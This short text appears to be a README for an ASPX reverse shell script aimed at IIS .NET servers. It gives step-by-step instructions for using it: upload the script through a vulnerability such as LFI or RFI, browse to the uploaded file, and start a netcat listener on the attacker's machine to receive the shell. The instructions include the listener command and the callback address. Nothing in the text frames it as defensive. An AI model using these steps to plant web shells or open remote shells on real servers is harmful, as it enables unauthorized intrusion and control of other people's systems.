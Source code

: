 # iis_asp_dot_net_reverse_shell.aspx
# NOTE: ASPX script uses example attacker machine IP:PORT - 127.0.0.1:8080

Instructions:

1.) Upload aspx script to iis .net web server vulnerable to: 
xss/csrf/lfi/rfi

2.) Navigate to URL path of upload:
http://example.com/iis_asp_dot_net_reverse_shell.aspx

3.) Setup listening port with netcat from attacker machine:
netcat -lv 0.0.0.0 -p 8080
